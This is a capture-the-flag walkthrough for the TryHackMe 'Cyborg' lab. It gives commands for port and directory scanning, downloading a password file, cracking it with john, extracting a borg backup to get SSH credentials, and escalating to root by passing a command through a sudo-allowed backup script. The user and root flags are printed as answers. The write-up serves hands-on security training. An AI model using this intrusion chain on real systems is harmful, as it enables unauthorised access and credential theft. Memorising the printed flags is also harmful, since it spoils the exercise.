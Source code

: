 # Cyborg

{% embed url="https://tryhackme.com/room/cyborgt8" %}
https://tryhackme.com/room/cyborgt8
{% endembed %}

![](../../.gitbook/assets/Cyborg.png)

## Task 2 Compromise the System

#### Scan the machine, how many ports are open?

```bash
rustscan -a 10.10.212.209 -- -n -sVC
```

![](<../../.gitbook/assets/Screenshot from 2022-04-05 08-08-01.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-05 08-08-11.png>)

{% hint style="success" %}
`2`
{% endhint %}

#### What service is running on port 22?

{% hint style="success" %}
`ssh`
{% endhint %}

#### What service is running on port 80?

{% hint style="success" %}
`http`
{% endhint %}

#### What is the user.txt flag?

```bash
gobuster dir -u http://10.10.212.209 \
             -w /usr/share/wordlists/dirb/common.txt \
             -t128
```

![](<../../.gitbook/assets/Screenshot from 2022-04-05 08-12-16.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-05 08-14-32.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-05 08-15-32.png>)

```bash
wget http://10.10.212.209/etc/squid/passwd
john --wordlist=/usr/share/wordlists/rockyou.txt passwd
```

![](<../../.gitbook/assets/Screenshot from 2022-04-05 08-16-06.png>)

```bash
wget http://10.10.212.209/admin/archive.tar
tar xvf archive.tar
cd home/field/dev/final_archive
cat README
```

![](<../../.gitbook/assets/Screenshot from 2022-04-05 08-34-52.png>)

```bash
sudo apt install borgbackup
borg extract --list home/field/dev/final_archive::music_archive
```

![](<../../.gitbook/assets/Screenshot from 2022-04-05 09-23-46.png>)

```bash
cat home/alex/Desktop/secret.txt
cat home/alex/Desktop/note.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-05 09-25-34.png>)

```bash
ssh alex@10.10.212.209
cat root.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-05 09-28-31.png>)

{% hint style="success" %}
`flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}`
{% endhint %}

#### What is the root.txt flag?

```bash
sudo -l
ls -l /etc/mp3backups/backup.sh
cat /etc/mp3backups/backup.sh
```

![](<../../.gitbook/assets/Screenshot from 2022-04-05 09-34-18.png>)

```bash
sudo /etc/mp3backups/backup.sh -c 'cat /root/root.txt' 2>/dev/null
```

![](<../../.gitbook/assets/Screenshot from 2022-04-05 09-35-18.png>)

{% hint style="success" %}
`flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}`
{% endhint %}

## Reference

{% embed url="https://ostechnix.com/backup-restore-files-borg-linux" %}

{% embed url="https://borgbackup.readthedocs.io/en/stable" %}
